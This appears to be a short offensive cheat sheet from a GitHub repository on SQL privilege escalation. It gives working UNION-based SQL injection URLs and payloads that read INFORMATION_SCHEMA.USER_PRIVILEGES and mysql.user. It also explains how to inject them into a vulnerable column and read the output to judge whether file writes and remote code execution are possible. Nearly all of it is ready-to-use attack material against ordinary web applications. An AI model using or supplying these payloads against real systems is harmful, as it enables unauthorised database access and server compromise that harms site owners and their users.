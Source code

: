 # SQL Privilege Escalation

## Identifying permissions of a single user

If the database user has write permission, it allows an attacker to upload arbitrary files in the server.

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:
```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:
```
(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)
```
Payload used for Privilege Check via MySQL System Table:
```
(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)
```

Apply one of the queries into the 4th column:
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server.
